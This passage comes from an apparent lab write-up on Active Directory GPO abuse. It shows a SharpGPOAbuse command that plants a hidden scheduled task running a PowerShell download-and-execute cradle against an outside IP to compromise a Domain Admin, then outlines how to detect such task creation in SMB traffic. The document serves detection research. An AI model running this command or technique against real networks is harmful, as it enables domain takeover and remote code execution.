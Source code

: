 > ![](assets/gpo_users.png)

> Based on the information above, we know that **andy lee** user is a Domain Admin which gives the attacker an easy path to compromise the Domain. Attacker can simply utilize Scheduled Task setting in User Policies in the GPO to create a scheduled task on all users under Finance OU

> ```powershell
execute-assembly /home/kali/Downloads/SharpGPOAbuse.exe --AddUserTask --TaskName "Evil Task" --Author F1\John --Command "cmd.exe" --Arguments "/c powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://100.100.100.100:80/a'))"" --GPOName "Finance User GPO" 
```

> ![](assets/evil_task.png)

> Since GPO settings update every 90 minutes attacker can either wait 90 minutes until the setting propagates to other workstations or the attacker can force an update. For the sake of POC, attacker forced an update, and waited for `andy lee` to log in on DC

> ![](assets/andy_lee_login.png)

> Once Andy Lee logs in, Domain Admin is compromised

> ![](assets/da_compromised.png)



## Findings

### How can we find out when an attacker creates a Scheduled Task via GPO? 

Scheduled Task Creation via GPO is done by couple of steps 

1. SMB WRITE ScheduledTasks.xml file for chosen type (Computer/User)
2. SMB WRITE to update GPT.ini version
3. Update gPCExtensionName with values below 
```powershell
[{00000000-0000-0000-0000-000000000000}{CAB54552-DEEA-4691-817E-ED4A4D1AFC72}][{AADCED64-746C-4633-A97C-D61349046527}{CAB54552-DEEA-4691-817E-ED4A4D1AFC72}]
```
> More details about gPCExtensionName logic can be found 
- https://github.com/FuzzySecurity/StandIn/blob/main/StandIn/StandIn/Program.cs#L1174
- https://github.com/FSecureLABS/SharpGPOAbuse/blob/master/SharpGPOAbuse/Program.cs#L252


Based on three behaviors above, we can easily identify that someone writing to ScheduledTasks.xml can be suspicious. 

Let's check on our pcap to see where this occurs

Pcap - 2022-12-12-gpoproject.pcap 
Frame #7106
